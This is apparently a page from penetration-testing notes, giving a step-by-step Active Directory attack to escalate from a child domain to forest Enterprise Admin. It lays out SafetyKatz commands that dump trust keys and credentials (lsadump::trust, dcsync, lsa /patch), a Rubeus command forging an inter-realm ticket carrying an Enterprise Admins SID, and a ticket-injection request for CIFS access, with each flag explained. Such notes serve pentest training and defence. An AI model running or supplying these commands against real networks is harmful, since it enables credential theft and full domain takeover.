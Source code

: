 # Methodology
>1. Dump the trust key of the child domain.
>2. Forge an inter-forest ticket.
>3. Inject the ticket.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Get the trust key:**
```cmd
SafetyKatz.exe '"lsadump::trust /patch"'
SafetyKatz.exe '"lsadump::dcsync /user:contoso\techcorp$"'
SafetyKatz.exe '"lsadump::lsa /patch"'
```

## Rubeus
**Forge a interrealm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/TECHCORP.LOCAL /rc4:a6215eeb238da9262d014a529fe03adb /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /nowrap
```

where:
- `silver` - Creates a forged Silver Ticket (TGS) for service authentication.  
- `/user` - Specifies the username to impersonate (e.g., `Administrator`).  
- `/ldap` - Targets the LDAP service on Domain Controllers.  
- `/service` - Specifies the service principal name (format: `krbtgt/DOMAIN.LOCAL`).
- `/rc4` - Provides the NTLM hash of the trust key account for ticket signing . 
- `/sids` - Adds Enterprise Admins SIDs to the ticket (e.g., Enterprise Admins `S-1-5-21-...-519`) .

**Request a TGS:**
```cmd
Rubeus.exe asktgs /service:CIFS/techcorpdc.TECHCORP.LOCAL /dc:techcorp-dc.TECHCORP.LOCAL /ptt /ticket:
```

>**ℹ️ Info:**
> Different SPN and what they're used for:
>- CIFS for directory browsing, copying files.
>- HTTP for WinRS.
>- HOST and CIFS for psexec.
>- HOST and RPCSS for WMI.
>- HOST and HTTP for PowerShell Remoting/WINRM.
>- LDAP for dcsync